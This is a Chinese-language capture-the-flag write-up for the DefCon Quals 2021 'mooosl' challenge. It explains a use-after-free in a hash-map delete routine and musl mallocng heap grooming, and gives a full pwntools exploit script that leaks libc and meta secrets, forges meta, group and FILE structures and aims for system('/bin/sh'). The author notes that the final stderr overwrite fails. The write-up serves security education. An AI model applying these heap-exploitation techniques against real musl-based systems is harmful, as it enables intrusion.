

在前面的介绍中，我们学习了musl pwn的基本原理，下面我们就通过一道经典例题进一步巩固。
这是DefCon Quals 2021中的一道题mooosl，直接在github上搜这道题的名字就可以找到作者发布的附件，内含说明、作者的exp、源码以及二进制程序。
注：我本来以为题目给的musl 1.2.2的libc和自己机子上面的一样，结果发现差得太远了，白花了我大半天时间。😭
参考文章
这是一个菜单题，包含三种操作store、query和delete，经过逆向分析之后可以知道这个菜单题的数据结构逻辑。程序中有一段0x8000大小的空间hashmap，可以保存0x1000个指针。这个指针是作者定义的结构体，结构体中包含有两个字符串，分别为key和value。进行store操作时，首先输入key，然后程序使用一个函数计算其哈希值（0-0xFFF），这个哈希值就是这个结构体需要保存到hashmap中的索引。如果有两个key的哈希值相同，则第二次store获取的结构体就会成为hashmap中的链首，结构体中还有一个指针用于形成链表，第一次store的结构体的地址就保存在第二次store的结构体之中。query则是根据输入的key值计算出哈希值对应的结构体并输出。delete会将找到的结构体移出hashmap。
本题的漏洞在delete函数中：

注意delete中的if语句，这个if语句内部的功能是从hashmap中移出结构体实例，p_chain就是hashmap中的地址。但这里有一种情况没有考虑：当要删除的结构体位于链尾时，if语句的两个条件都不会满足，这样这个结构体就不会从链表中删除，而是留在其中。这就为我们UAF创造了条件。如果我们能够通过堆排布操作让另一个结构体的value地址等于这个已经被删除的结构体地址，那么通过query我们就能够获取到这个结构体中的内容，其中包含多个指针的地址。
我们再来回顾一下free函数的流程：free的重点在于nontrivial_free，注意下面的代码片段：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 wrlock(); struct mapinfo mi = unlock(); if (mi.len) { int e = errno; munmap(mi.base, mi.len); errno = e; } if (mask+self == (2u <<g->last_idx)-1 && okay_to_free(g)) { if (g->next) { assert(sc < 48 ); int activate_new = (ctx.active[sc]==g); dequeue(&ctx.active[sc], g); if (activate_new && ctx.active[sc]) activate_group(ctx.active[sc]); } return free_group(g); } if (g->maplen) { step_seq(); record_seq(sc); mi.base = g->mem; mi.len = g->maplen*4096UL ; } ... free_meta(g); return mi;
当一个group中所有的chunk均被释放时，在释放最后一个chunk时会调用到free_group函数将group释放，这是我们不希望看到的，因此在堆排布的过程中，我们不应该让一个meta中的所有chunk在某一时刻全部被释放。
另外注意到，malloc函数在选择chunk时不会去选择刚刚被free的chunk，因为此时代表该chunk的bit只在freed_mask中为1，在avail_mask中为0。
1 2 3 4 5 6 7 8 static inline uint32_t activate_group (struct meta *m) { assert(!m->avail_mask); uint32_t mask, act = (2u <<m->mem->active_idx)-1 ; do mask = m->freed_mask; while (a_cas(&m->freed_mask, mask, mask&~act)!=mask); return m->avail_mask = mask & act; }
而activate_group函数则可以将free_mask中的所有chunk变为avail_mask。这个函数触发的条件是：这个group的avail_mask为0，该group中不是被free的chunk就是正在使用的chunk 。因此，想要分配到已经被free的结构体所在的chunk，就应该首先让这个group中的chunk全部被分配一次。
考虑到本题使用的是calloc而不是malloc，因此堆排布的目标应该是让一个结构体的value指向另一个结构体，而且不能分配到原来结构体所在的chunk。可行的方法是：
Step 1: 分配第1个storage结构体
Step 2: 进行堆空间排布
Step 3: 分配第2个storage结构体使得storage结构体本身位于其value的后面
Step 4: delete第2个storage
Step 5: 分配第3个storage结构体使得这个结构体的chunk就是第2个storage的value
Step 6: 对第2个storage调用query以获得第3个storage结构体中的指针等
这里需要进行计算，让两个不同的key值具有相同的哈希值，这个不难实现，因为最终结果是12比特，穷举即可。
1 2 3 4 5 6 7 8 9 10 11 store(b'A' , b'9889' ) for i in range (5 ): query(b'A' * 0x30 ) store(b'B' , b'A' * 0x30 ) store(find_collision(b'B' ), b'B' ) delete(b'B' ) for i in range (3 ): query(b'A' * 0x30 ) store(b'C' , b'C' * 0x1000 ) query(b'B' )
如上面的代码片段所示，即可通过query操作打印出最后一个store创建的结构体的信息。最后一个store的value地址就在当前的group中，根据这个值可以获取该group的地址。注意这里的最后一次store分配了一个大空间，这会让musl在libc地址正下方mmap一块空间，这样我们可以通过这个地址获取到libc的基地址。在此之后，我们只需要重复地通过query操作修改第二次store获得的storage中的value地址，即可实现任意地址读。因为此时我们可以根据获取的两个地址推导出第二个storage中的关键字段的值。在第一次leak之后，7个chunk索引从高到低的状态应该依次为：AAAAUUU（A可用，U正用，F释放），其中第7个是第二个storage结构体保存的位置，那么我们可以先用3个无效的query让状态变为AFFFUUU，然后就可以使用query操作来修改第二个storage结构体的值，最后再一次query进行任意写。
由此，我们可以获取到meta_area的secret值，libc的基地址等关键信息，之后就要开始使用unlink进行利用了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 leak = hex2bytes(io.recvline().split(b":" )[1 ]) group_addr = u64(leak[0 :8 ]) - 0x70 smallchunk = group_addr + 0x30 mmap_addr = u64(leak[8 :16 ]) - 0x20 enc = u64(leak[32 :40 ]) - 1 libc_base = mmap_addr + 0x4000 for i in range (3 ): query(b'B' * 0x30 ) query(p64(smallchunk) + p64(group_addr) + p64(1 ) + p64(0x30 ) + p64(enc) + p64(0 ), key_size=0x30 ) query(b'B' ) leak = hex2bytes(io.recvline().split(b":" )[1 ]) meta_addr = u64(leak[0 :8 ]) meta_area = meta_addr & 0xFFFF_FFFF_FFFF_F000 info('meta_area: ' + hex (meta_area)) for i in range (3 ): query(b'B' * 0x30 ) query(p64(smallchunk) + p64(meta_area) + p64(1 ) + p64(0x30 ) + p64(enc) + p64(0 ), key_size=0x30 ) query(b'B' ) leak = hex2bytes(io.recvline().split(b":" )[1 ]) secret = u64(leak[0 :8 ]) info('secret: ' + hex (secret)) system = libc_base + libc.symbols['system' ] binsh = libc_base + next (libc.search(b'/bin/sh' )) stderr = libc_base + libc.symbols['stderr' ] stdout = libc_base + libc.symbols['stdout' ]
这一步是常规步骤，我们将伪造的FILE结构体、伪造的meta、group、chunk放在一个chunk中，注意meta_area需要页对齐，并在页首部写入secret值。
写入之后，我们想办法释放假的chunk，方法是将原来用于leak的chunk分配出去，然后修改内部指针的值，再通过delete删除即可。然后就可以利用unlink修改stderr指针的值为我们的假chunk。但是很不幸的是，stderr指针所在的段是只读的，我不知道为什么很多的文章都说要修改这个地方，但是这里不能改，如果能改的话是肯定可以过的。也就是最后一次delete无法完成。
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 from pwn import *context.log_level = 'debug' io = process('./mooosl' , env={'LD_PRELOAD' : 'libc.so' }) libc = ELF('libc.so' ) elf = ELF('./mooosl' ) sla = lambda x, y: io.sendlineafter(x, y) sa = lambda x, y: io.sendafter(x, y) att = lambda : gdb.attach(io) sleep = lambda : time.sleep(3 ) def encrypt (content: bytes ): res = 2021 for i in range (len (content)): res = res * 0x13377331 + ord (content.decode()[i]) res %= 0x1_0000_0000 return res & 0xFFF def encrypt_original (content: bytes ): res = 2021 for i in range (len (content)): res = res * 0x13377331 + ord (content.decode()[i]) res %= 0x1_0000_0000 return res def store (key_content, value_content, key_size = None , value_size = None ): sla(b'option: ' , b'1' ) if key_size is None : sla(b'key size: ' , str (len (key_content)).encode()) sa(b'key content: ' , key_content) else : sla(b'key size: ' , str (key_size).encode()) sa(b'key content: ' , key_content) if value_size is None : sla(b'value size: ' , str (len (value_content)).encode()) sa(b'value content: ' , value_content) else : sla(b'value size: ' , str (value_size).encode()) sa(b'value content: ' , value_content) def query (key_content, key_size = None ): sla(b'option: ' , b'2' ) if key_size is None : sla(b'key size: ' , str (len (key_content)).encode()) sa(b'key content: ' , key_content) else : sla(b'key size: ' , str (key_size).encode()) sa(b'key content: ' , key_content) def delete (key_content ): sla(b'option: ' , b'3' ) sla(b'key size: ' , str (len (key_content)).encode()) sa(b'key content: ' , key_content) def find_collision (victim: bytes ): i = 0 target = encrypt(victim) while True : if encrypt(str (i).encode()) == target and str (i).encode() != victim: return str (i).encode() i += 1 def hex2bytes (content: bytes ): res = b'' for i in range (len (content) // 2 ): res += p8(int (content.decode()[i*2 ], 16 ) * 0x10 + int (content.decode()[i*2 +1 ], 16 )) return res store(b'A' , b'9889' ) for i in range (5 ): query(b'A' * 0x30 ) store(b'B' , b'A' * 0x30 ) store(find_collision(b'B' ), b'B' ) delete(b'B' ) for i in range (3 ): query(b'A' * 0x30 ) store(b'C' , b'C' * 0x1000 ) query(b'B' ) leak = hex2bytes(io.recvline().split(b":" )[1 ]) group_addr = u64(leak[0 :8 ]) - 0x70 smallchunk = group_addr + 0x30 mmap_addr = u64(leak[8 :16 ]) - 0x20 enc = u64(leak[32 :40 ]) - 1 libc_base = mmap_addr + 0x4000 for i in range (3 ): query(b'B' * 0x30 ) query(p64(smallchunk) + p64(group_addr) + p64(1 ) + p64(0x30 ) + p64(enc) + p64(0 ), key_size=0x30 ) query(b'B' ) leak = hex2bytes(io.recvline().split(b":" )[1 ]) meta_addr = u64(leak[0 :8 ]) meta_area = meta_addr & 0xFFFF_FFFF_FFFF_F000 info('meta_area: ' + hex (meta_area)) for i in range (3 ): query(b'B' * 0x30 ) query(p64(smallchunk) + p64(meta_area) + p64(1 ) + p64(0x30 ) + p64(enc) + p64(0 ), key_size=0x30 ) query(b'B' ) leak = hex2bytes(io.recvline().split(b":" )[1 ]) secret = u64(leak[0 :8 ]) info('secret: ' + hex (secret)) system = libc_base + libc.symbols['system' ] binsh = libc_base + next (libc.search(b'/bin/sh' )) stderr = libc_base + libc.symbols['stderr' ] stdout = libc_base + libc.symbols['stdout' ] for i in range (2 ): query(b'B' * 0x30 ) fake_file_addr = libc_base - 0x3000 + 0x560 fake_meta_addr = libc_base - 0x2000 + 0x10 fake_group_addr = libc_base - 0x2000 + 0x40 key = p64(group_addr + 0x20 ) key += p64(fake_group_addr + 0x10 ) key += p64(4 ) key += p64(0x30 ) key += p64(encrypt_original(find_collision(find_collision(b'B' )))) key += p64(0 ) fake_file = b'/bin/sh\x00' fake_file += p64(0 ) * 6 fake_file += p64(1 ) fake_file += p64(0 ) fake_file += p64(system) maplen = 1 sizeclass = 8 last_idx = 0 freeable = 1 fake_meta = p64(fake_group_addr + 0x10 + 0x80 ) fake_meta += p64(stderr) fake_meta += p64(fake_group_addr) fake_meta += p64(0 ) fake_meta += p64(last_idx + (freeable << 5 ) + (sizeclass << 6 ) + (maplen << 12 )) fake_meta += p64(0 ) fake_group = p64(fake_meta_addr) fake_group += p64(1 ) fake_group += p64(0 ) value = fake_file.ljust(0x1000 - 0x560 , b'\x00' ) value += p64(secret).ljust(0x10 , b'\x00' ) value += fake_meta value += fake_group value += b'\x00' * 0x530 store(key, value, key_size=0x30 , value_size=len (value)) info('fake chunk address: ' + hex (fake_group_addr + 0x90 )) info('stderr: ' + hex (stderr)) info('group address: ' + hex (group_addr)) info('mmap space: ' + hex (mmap_addr)) delete(find_collision(find_collision(b'B' ))) io.interactive()